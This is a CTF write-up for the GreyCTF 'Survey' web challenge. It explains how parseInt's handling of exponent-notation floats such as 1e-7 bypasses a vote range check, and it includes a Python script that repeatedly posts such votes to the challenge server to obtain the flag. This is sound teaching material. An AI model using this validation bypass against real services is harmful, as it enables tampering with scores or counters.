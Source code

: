 ```yaml
---
title: Greyctf Survey Writeup
date: 2024-04-25
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```


# Intro

- Recently I have participated in Grey Cat The Flag as a member in F1ag dot txt, and I encountered some questions which are quite interesting. One of them is greyctf survey

# 0x01

### Source code:

index.js
```javascript
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})

```

From the source code, we can see that we are able to send data by using post method to the endpoint '/vote'. And the data will be in json format:  {'votes': value}

The value need to be send will have to be in between 1 and -1, and it will be parsed into an integer and will be added to the 'score' variable, and once the value of score exceeds 1. It will return with flag

# 0x02

As such, we can use try to use burp to intercept the packet first and post a random data that is between 1 and -1 . But it turns out that the value it returns us is the exact same.

## parseInt() function

In Javascript, the parseInt() function parses a string argument and returns an integer of the specified radix (the base in mathematical numeral systems)(https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt)

It has two parameter(here we only require to use one): String and radix(we do not need use this one at this circumstance)

Tips: 
1. If the string start with a "0x", Javascript will interpret it as a hexadecimal number
2. If the typeof value is not a string, Javascript will implicitly call the `toString()` to convert it into a string by default.

The parseInt() will starts parsing from the beginning of the string until it encounters a non-numeric character or reaches the end of the string with whitespace ignoring . If the first non-whitespace character is not numeric character, plus or negative. It will return a value of NaN.

For instance:

```javascript:
console.log(parseInt('123abc'))//123
console.log(parseInt(' 1'))//1
console.log(parseInt('a'))//NaN
```

Similarly, if the value is a decimal(float), it will return the number before decimal point, as '.' is considered as non-numeric

```javascript
console.log(parseInt(0.05))//0
```

It will return a value of 0, and that explains why the score remain exact same why we post a value(-1 < value < 1), as it will be parsed to 0.

# 0x03

## Standard form

However, in javascript, when a number has more than 6 decimal places, it will automatically transformed into standard form.

For instance:

```javascript
console.log(0.0000001)//1e-7
```


Therefore, back to the parseInt() function again, once we post a value that exceeds 6 decimals places, parseInt() lt will only parse the part of the string before the "e" character:

For instance:

```javascript
0.0000001 -> 1e-7
```

The first number that parseInt() will parse will be 1 and end before the "e" character

As such, we can use this and post a data that is more than 6 decimal places.

![](/assets/img/Grey_cat_the_flag/flag.png)

By doing it, we can find the value changing, and by doing it twice, we are able to make the score more than 1.

As it exceeds 1, it returns us with the flag.

# 0x04
## Python

```python
exp.py

#!/usr/bin/python3
import requests
import json

def solve():
    try:
        # url
        url = 'http://challs.nusgreyhats.org:33334/vote'
        # header
        header = {
            "Content-Type": "application/json; charset=utf-8"
        }
        # payload
        payload = '''
        {"vote":0.0000000000000000001}    
        '''
        reponse = requests.post(url, data=payload,headers=header)
        # if the score still do not exceeds 1
        # flag format: "grey{...}"
        while "grey{" not in reponse.text:
            reponse = requests.post(url, data=payload,headers=header)
        # flag 
        flag = json.loads(reponse.text)['msg']
        print(flag)
    except Exception as e:
        print(e)

if __name__ == "__main__":
    solve()

```


Reference: 
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt
http://t.csdnimg.cn/EU6uo
http://t.csdnimg.cn/yGCjd

